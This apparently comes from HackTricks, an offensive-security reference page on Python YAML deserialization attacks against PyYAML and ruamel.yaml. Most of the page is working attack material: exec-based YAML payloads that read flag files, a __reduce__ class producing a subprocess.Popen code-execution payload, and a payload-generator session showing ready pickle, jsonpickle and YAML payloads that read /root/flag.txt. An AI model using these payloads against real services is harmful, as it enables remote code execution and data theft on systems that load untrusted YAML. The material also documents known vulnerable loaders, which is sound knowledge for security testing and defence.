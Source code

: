 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Yaml **Deserialization**

**Yaml** python libraries is also capable to **serialize python objects** and not just raw data:

```
print(yaml.dump(str("lol")))
lol
...

print(yaml.dump(tuple("lol")))
!!python/tuple
- l
- o
- l
 
print(yaml.dump(range(1,10)))
!!python/object/apply:builtins.range
- 1
- 10
- 1
```

Check how the **tuple** isn’t a raw type of data and therefore it was **serialized**. And the same happened with the **range** (taken from the builtins).

![](<../../.gitbook/assets/image (628) (1).png>)

**safe\_load()** or **safe\_load\_all()** uses SafeLoader and **don’t support class object deserialization**. Class object deserialization example:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:builtins.range [1, 10, 1]'

print(yaml.load(data, Loader=UnsafeLoader)) #range(1, 10)
print(yaml.load(data, Loader=Loader)) #range(1, 10)
print(yaml.load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=Loader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=UnsafeLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=FullLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load(data)) #range(1, 10)
print(yaml.full_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>

#The other ways to load data will through an error as they won't even attempt to
#deserialize the python object
```

The previous code used **unsafe\_load** to load the serialized python class. This is because in **version >= 5.1**, it doesn’t allow to **deserialize any serialized python class or class attribute**, with Loader not specified in load() or Loader=SafeLoader.

## Basic Exploit

Example on how to **execute a sleep**:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:time.sleep [2]'
print(yaml.load(data, Loader=UnsafeLoader)) #Executed
print(yaml.load(data, Loader=Loader)) #Executed
print(yaml.load_all(data))
print(yaml.load_all(data, Loader=Loader))
print(yaml.load_all(data, Loader=UnsafeLoader))
print(yaml.load_all(data, Loader=FullLoader))
print(yaml.unsafe_load(data)) #Executed
print(yaml.full_load_all(data))
print(yaml.unsafe_load_all(data))
```

## Vulnerable .load("\<content>") without Loader

**Old versions** of pyyaml were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

You can find the  [**description of the vulnerability here**](https://hackmd.io/@defund/HJZajCVlP)**.** The proposed **exploit** in that page is:

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Or you could also use this **one-liner provided by @ishaack**:

```yaml
!!python/object/new:str {state: !!python/tuple ['print(exec("print(o"+"pen(\"flag.txt\",\"r\").read())"))', !!python/object/new:Warning {state : {update : !!python/name:exec } }]}
```

Note that in **recent versions** you cannot **no longer call `.load()`** **without a `Loader`** and the **`FullLoader`** is **no longer vulnerable** to this attack.

# RCE

Kindly note payload creation can be done with **any python YAML module (PyYAML or ruamel.yaml), in the same way**. The same payload can exploit both YAML module or any module based on PyYAML or ruamel.yaml

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
    def __reduce__(self):
        return (subprocess.Popen,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)

#!!python/object/apply:subprocess.Popen
#- ls

print(yaml.load(deserialized_data, Loader=UnsafeLoader))
print(yaml.load(deserialized_data, Loader=Loader))
print(yaml.unsafe_load(deserialized_data))
```

## Tool to create Payloads

The tool [https://github.com/j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate python deserialization payloads to abuse **Pickle, PyYAML, jsonpickle and ruamel.yaml:**

```bash
python3 peas.py     
Enter RCE command :cat /root/flag.txt
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :
Enter File location and name to save :/tmp/example
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :All
Done Saving file !!!!

cat /tmp/example_jspick 
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["cat", "/root/flag.txt"]}]}]}

cat /tmp/example_pick | base64 -w0
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwOL3Jvb3QvZmxhZy50eHSUhpSFlFKULg==

cat /tmp/example_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
    - /root/flag.txt
```

# References

For more in depth information about this technique read: [https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


